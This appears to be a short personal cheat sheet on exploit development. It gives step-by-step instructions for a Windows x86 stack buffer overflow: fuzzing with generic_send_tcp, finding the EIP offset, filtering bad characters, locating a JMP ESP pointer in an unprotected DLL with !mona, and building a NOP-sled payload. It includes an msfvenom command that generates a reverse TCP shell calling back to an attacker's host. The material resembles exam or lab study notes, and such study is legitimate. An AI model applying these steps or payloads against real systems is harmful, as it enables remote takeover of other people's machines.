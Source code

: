 
Steps to make a perfect buffer overflow

->use gerneric_send_tcp to try all the option and find which is vulnerable

->manually end the junk using any pattern creater and find the excat offset of EIP

->send all the bad chars and maually look for what are excluded

->find the module using !mona modules to pick an dll without any protction 

->use !mona find -s "\xFF\xE4" -m <DLL_name> to find the JMP ESP pointer location

->add nops if you have enough space to padd the shellcode to the nopslide

example:

pattern_create -l size

pattern_offeset -l size -q stuffthat is the current eip

msfvenom -p windows/shell_reverse_tcp LHOST=yourip LPORT=yourport EXITFUNC=thread -f c -a x86 -b "badchars"



junk + ret + "\x90"*32 + code 

!mona modules
!mona find -s "\xFF\xE4" -m <exe or dll>
!mona bytearray -cpb "excudle chars"

!mona compare -f file bytearray.bin -a address

!mona config -set workingfolder c:\

!mona jmp -r esp -cpb "<badchars>"

dont not forget to but the shell code in brackets while pasting

individually check every bad chars as it might change anything





